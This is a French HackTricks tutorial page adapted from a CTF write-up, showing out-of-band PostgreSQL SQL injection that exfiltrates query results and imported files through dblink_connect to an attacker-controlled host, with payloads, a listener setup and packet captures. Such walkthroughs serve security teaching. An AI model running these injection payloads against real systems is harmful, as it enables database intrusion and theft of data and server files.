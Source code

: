# Exfiltration de données avec dblink/lo_import

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Voici un exemple de comment exfiltrer des données en chargeant des fichiers dans la base de données avec `lo_import` et les exfiltrer en utilisant `dblink_connect`.**

## Préparation du serveur d'exfiltration/Injection SQL Asynchrone

**Extrait de :** [**https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md**](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

Comme `pg_sleep` ne cause également pas de délai, nous pouvons supposer en toute sécurité que l'exécution de la requête se produit en arrière-plan ou de manière asynchrone.

Normalement, `dblink_connect` peut être utilisé pour ouvrir une connexion persistante à une base de données PostgreSQL distante (par exemple, `SELECT dblink_connect('host=HOST user=USER password=PASSWORD dbname=DBNAME')`). Comme nous pouvons contrôler le paramètre de cette fonction, nous pouvons effectuer une falsification de requête côté serveur SQL vers notre propre hôte. Cela signifie que nous pouvons effectuer une Injection SQL Out-of-Band pour exfiltrer des données à partir des résultats de requêtes SQL. Il existe au moins deux façons de faire cela :

1. Configurer un **serveur DNS** puis déclencher la connexion à `[data].our.domain` afin que nous puissions voir les données dans le journal ou dans les paquets réseau DNS.
2. Configurer un **serveur PostgreSQL public, surveiller les paquets réseau entrants sur le port PostgreSQL**, puis déclencher une connexion à notre hôte avec les données exfiltrées comme `user`/`dbname`. Par **défaut**, PostgreSQL n'utilise pas SSL pour la communication, donc nous pouvons voir `user`/`dbname` en **texte clair** sur le réseau.

La **deuxième méthode est plus simple** car nous n'avons pas besoin de domaine. Nous avons seulement besoin de configurer un serveur avec une IP publique, installer PostgreSQL, configurer le service PostgreSQL pour écouter sur \*/0.0.0.0, et exécuter un collecteur de réseau (par exemple, tcpdump) pour surveiller le trafic vers le port PostgreSQL (5432 par défaut).

Pour configurer PostgreSQL afin qu'il **écoute publiquement**, définissez `listen_addresses` dans `postgresql.conf` à `*`.
```
listen_addresses = '*'
```
Pour surveiller le trafic entrant, exécutez `tcpdump` pour surveiller le port 5432.
```
sudo tcpdump -nX -i eth0 port 5432
```
Pour voir si nous obtenons une connexion de la cible, nous pouvons essayer d'utiliser cette requête :
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=farisv password=postgres dbname=hellofromfb')) --
```
Si réussi, nous obtenons un morceau de paquet réseau avec `user` et `dbname` lisibles.
```
17:14:11.267060 IP [54.185.163.254.50968] > [REDACTED]: Flags [P.], seq 1:43, ack 1, win 229, options [nop,nop,TS val 970078525 ecr 958693110], length 42
0x0000:  4500 005e 9417 4000 2706 248c 36b9 a3fe  E..^..@.'.$.6...
0x0010:  9de6 2259 c718 2061 5889 142a 9f8a cb5d  .."Y...aX..*...]
0x0020:  8018 00e5 1701 0000 0101 080a 39d2 393d  ............9.9=
0x0030:  3924 7ef6 0000 002a 0003 0000 7573 6572  9$~....*....user
0x0040:  0066 6172 6973 7600 6461 7461 6261 7365  .farisv.database
0x0050:  0068 656c 6c6f 6672 6f6d 6662 0000       .hellofromfb.
```
Ensuite, nous pouvons **continuer à extraire la base de données en utilisant plusieurs requêtes PostgreSQL**. Notez que pour chaque résultat de requête contenant des espaces, nous devons convertir le résultat en **hex/base64** avec la fonction `encode` ou remplacer l'espace par un autre caractère avec la fonction `replace`, car cela provoquera une erreur d'exécution pendant le processus `dblink_connect`.

Obtenir une **liste** de **schémas** :
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(schema_name,':') FROM information_schema.schemata) || ' password=postgres dbname=postgres')) --
```

```
17:36:46.538178 IP 54.185.163.254.51018 > [REDACTED]: Flags [P.], seq 1:70, ack 1, win 229, options [nop,nop,TS val 971433789 ecr 960048322], length 69
0x0000:  4500 0079 ecd5 4000 2706 cbb2 36b9 a3fe  E..y..@.'...6...
0x0010:  9de6 2259 c74a 2061 1e74 4769 b404 803d  .."Y.J.a.tGi...=
0x0020:  8018 00e5 2710 0000 0101 080a 39e6 e73d  ....'.......9..=
0x0030:  3939 2cc2 0000 0045 0003 0000 7573 6572  99,....E....user
0x0040:  0070 7562 6c69 633a 696e 666f 726d 6174  .public:informat
0x0050:  696f 6e5f 7363 6865 6d61 3a70 675f 6361  ion_schema:pg_ca
0x0060:  7461 6c6f 6700 6461 7461 6261 7365 0070  talog.database.p
0x0070:  6f73 7467 7265 7300 00                   ostgres.
```
Obtenez une **liste** des **tables** dans le schéma actuel :
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(tablename, ':') FROM pg_catalog.pg_tables WHERE schemaname=current_schema()) || ' password=postgres dbname=postgres')) --
```

```
17:38:30.515438 IP 54.185.163.254.51026 > [REDACTED]: Flags [P.], seq 1:42, ack 1, win 229, options [nop,nop,TS val 971537775 ecr 960152304], length 41
0x0000:  4500 005d f371 4000 2706 c532 36b9 a3fe  E..].q@.'..26...
0x0010:  9de6 2259 c752 2061 8dd4 e226 24a3 a5c5  .."Y.R.a...&$...
0x0020:  8018 00e5 fe2b 0000 0101 080a 39e8 7d6f  .....+......9.}o
0x0030:  393a c2f0 0000 0029 0003 0000 7573 6572  9:.....)....user
0x0040:  0073 6561 7263 6865 7300 6461 7461 6261  .searches.databa
0x0050:  7365 0070 6f73 7467 7265 7300 00         se.postgres.
```
**Compter** les **lignes** dans la table `searches`.
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT COUNT(*) FROM searches) || ' password=postgres dbname=postgres')) --
```

```
17:42:39.511643 IP 54.185.163.254.51034 > [REDACTED]: Flags [P.], seq 1:35, ack 1, win 229, options [nop,nop,TS val 971786760 ecr 960401280], length 34
0x0000:  4500 0056 7982 4000 2706 3f29 36b9 a3fe  E..Vy.@.'.?)6...
0x0010:  9de6 2259 c75a 2061 5ec0 7df0 8611 357d  .."Y.Z.a^.}...5}
0x0020:  8018 00e5 f855 0000 0101 080a 39ec 4a08  .....U......9.J.
0x0030:  393e 8f80 0000 0022 0003 0000 7573 6572  9>....."....user
0x0040:  0030 0064 6174 6162 6173 6500 706f 7374  .0.database.post
0x0050:  6772 6573 0000                           gres.
```
Il semble qu'il n'y ait qu'une seule table vide dans le schéma actuel et que le drapeau ne soit pas dans la base de données. Nous pourrions vraiment avoir besoin d'exfiltrer des données depuis `/var/lib/postgresql/data/secret`. Malheureusement, si nous essayons d'utiliser `pg_read_file` ou `pg_read_binary_file` pour lire le fichier, nous n'obtiendrons pas de connexion entrante, donc l'utilisateur actuel peut ne pas avoir la permission d'utiliser ces fonctions.

#### Plus d'infos sur l'Injection SQL asynchrone avec postdresql

* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

## **Exfiltration du contenu d'un grand objet**

Il est possible de lire un fichier en utilisant des grands objets ([https://www.postgresql.org/docs/11/lo-funcs.html](https://www.postgresql.org/docs/11/lo-funcs.html)). Nous pouvons utiliser `lo_import` pour charger le contenu du fichier dans le catalogue `pg_largeobject`. Si la requête est réussie, nous obtiendrons l'`oid` de l'objet.
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT lo_import('/var/lib/postgresql/data/secret')) || ' password=postgres dbname=postgres')) --
```

```
17:54:51.963925 IP 54.185.163.254.51046 > [REDACTED]: Flags [P.], seq 1:39, ack 1, win 229, options [nop,nop,TS val 972519214 ecr 961133706], length 38
0x0000:  4500 005a 071f 4000 2706 b188 36b9 a3fe  E..Z..@.'...6...
0x0010:  9de6 2259 c766 2061 26fb c8a7 bbb3 fe01  .."Y.f.a&.......
0x0020:  8018 00e5 2272 0000 0101 080a 39f7 772e  ...."r......9.w.
0x0030:  3949 bc8a 0000 0026 0003 0000 7573 6572  9I.....&....user
0x0040:  0032 3436 3638 0064 6174 6162 6173 6500  .24668.database.
0x0050:  706f 7374 6772 6573 0000                 postgres..
```
Nous avons obtenu 24668 comme `oid`, ce qui signifie que nous pouvons utiliser la fonction `lo_import`. Malheureusement, nous n'obtiendrons aucun résultat si nous essayons d'obtenir le contenu de l'objet large en utilisant `lo_get(24668)` ou en accédant directement au catalogue `pg_largeobject`. **Il semble que l'utilisateur actuel n'ait pas la permission de lire le contenu des nouveaux objets.**

Après avoir lu la documentation sur les objets larges dans PostgreSQL, nous pouvons découvrir que **les objets larges peuvent avoir une ACL** (Liste de Contrôle d'Accès). Cela signifie que, s'il y a un vieil objet avec une ACL qui permet à l'utilisateur actuel de le lire, alors nous pouvons exfiltrer le contenu de cet objet.

Nous pouvons obtenir une liste des `oid` des objets larges disponibles en les extrayant de `pg_largeobject_metadata`.
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT string_agg(cast(l.oid as text), ':') FROM pg_largeobject_metadata l) || ' password=postgres dbname=postgres')) --
```

```
18:06:57.172285 IP 54.185.163.254.51052 > [REDACTED]: Flags [.], seq 1:2897, ack 1, win 229, options [nop,nop,TS val 973244413 ecr 961858878], length 2896
0x0000:  4500 0b84 7adf 4000 2606 339e 36b9 a3fe  E...z.@.&.3.6...
0x0010:  9de6 2259 c76c 2061 8d76 e934 10c9 3972  .."Y.l.a.v.4..9r
0x0020:  8010 00e5 a66d 0000 0101 080a 3a02 87fd  .....m......:...
0x0030:  3954 cd3e 0000 1c94 0003 0000 7573 6572  9T.>........user
0x0040:  0031 3635 3731 3a31 3634 3339 3a31 3635  .16571:16439:165
0x0050:  3732 3a31 3634 3431 3a31 3634 3432 3a31  72:16441:16442:1
0x0060:  3733 3732 3a31 3634 3434 3a31 3634 3435  7372:16444:16445
0x0070:  3a31 3831 3534 3a31 3733 3830 3a31 3737  :18154:17380:177
0x0080:  3038 3a31 3635 3737 3a31 3634 3530 3a31  08:16577:16450:1
0x0090:  3634 3531 3a31 3634 3532 3a31 3634 3533  6451:16452:16453

.....
.....
.....
```
Nous avons obtenu un ensemble d'`oid`. Nous pouvons essayer d'utiliser `lo_get` pour charger le contenu de l'objet. Par exemple, `lo_get(16439)` chargera le contenu de `/etc/passwd`. Comme le résultat de `lo_get` est `bytea`, nous devons le convertir en `UTF8` pour qu'il puisse être ajouté dans la requête.

Nous pouvons essayer de charger certains objets avec le plus bas `oid` pour découvrir si le fichier drapeau a été chargé auparavant. L'objet fichier drapeau existe bien avec l'`oid` 16444. Il n'y a pas d'espaces blancs dans le drapeau donc nous pouvons juste l'afficher tel quel.

Pour charger le drapeau :
```
asd' UNION SELECT 1,(SELECT dblink_connect('host=IP user=' || (SELECT convert_from(lo_get(16444), 'UTF8')) || ' password=postgres dbname=p
```
#### Plus d'infos sur oid :

* [https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module](https://balsn.tw/ctf\_writeup/20190603-facebookctf/#hr\_admin\_module)
* [https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md](https://github.com/PDKT-Team/ctf/blob/master/fbctf2019/hr-admin-module/README.md)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> !</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
